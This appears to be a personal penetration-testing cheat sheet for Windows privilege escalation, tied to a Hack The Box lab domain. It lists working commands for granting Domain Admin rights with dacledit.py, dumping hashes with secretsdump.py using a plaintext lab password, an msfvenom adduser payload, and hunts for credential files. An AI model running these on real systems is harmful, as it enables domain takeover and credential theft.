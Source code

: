 ### WriteDacl
- 1. 編輯 Domain Admins ACL 將自己加入 Domain Admin
`dacledit.py -action write -rights FullControl \
  -principal PUPPY\\steph.cooper_adm \
  -target "CN=Domain Admins,CN=Users,DC=puppy,DC=htb" \
  -dc-ip 10.10.11.70 \
  PUPPY/steph.cooper_adm:'FivethChipOnItsWay2025!'`

- 2. (或) dump Administrator Hash
`secretsdump.py 'PUPPY/steph.cooper_adm:FivethChipOnItsWay2025!@10.10.11.70'`

### PowerUp.ps1
- `Get-ModifiableServiceFile`
- ![image](https://hackmd.io/_uploads/r1tZs5ahJe.png)
- ![image](https://hackmd.io/_uploads/By_do5ph1e.png)

### [Binary Hijacking](https://hackmd.io/@CHW/H1F8rLl5kg#Service-Binary-Hijacking)
- Search WMI: win32_service
    `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
- `icacls "{File}"`

### [DLL Hijacking](https://hackmd.io/@CHW/H1F8rLl5kg#Use-the-Event-Viewer-to-search-for-events-recorded-by-Script-Block-Logging) 
- Search WMI: `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
    - Writeable? `echo "chw" > 'C:\FileZilla\FileZilla FTP Client\chw.txt'`
    - `type 'C:\FileZilla\FileZilla FTP Client\chw.txt'`
-  Procmon (install)

### [Unquoted Service Paths](https://hackmd.io/@CHW/H1F8rLl5kg#Unquoted-Service-Paths)
- `Get-CimInstance -ClassName win32_service | Select Name,State,PathName `
看路徑有沒有空格 (user 需要 Start-Service 權限)
```
msfvenom -p windows/adduser USER=chw PASS=chw -f exe -o Current.exe
```
### OSVersion
- `[System.Environment]::OSVersion.Version`
>  Google or Exploit-DB
### [KeePass](https://hackmd.io/@CHW/ryj8tW4UJl#Password-Manager)
- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

### [History](https://hackmd.io/@CHW/H1F8rLl5kg#1-check-the-PowerShell-history)
- `(Get-PSReadlineOption).HistorySavePath`
###  [Event Viewer](https://hackmd.io/@CHW/H1F8rLl5kg#Use-the-Event-Viewer-to-search-for-events-recorded-by-Script-Block-Logging)
- 需要 GUI

### config file
- XAMPP
    - `C:\xampp\mysql\bin\*.ini`
    - `C:\xampp\*.txt`

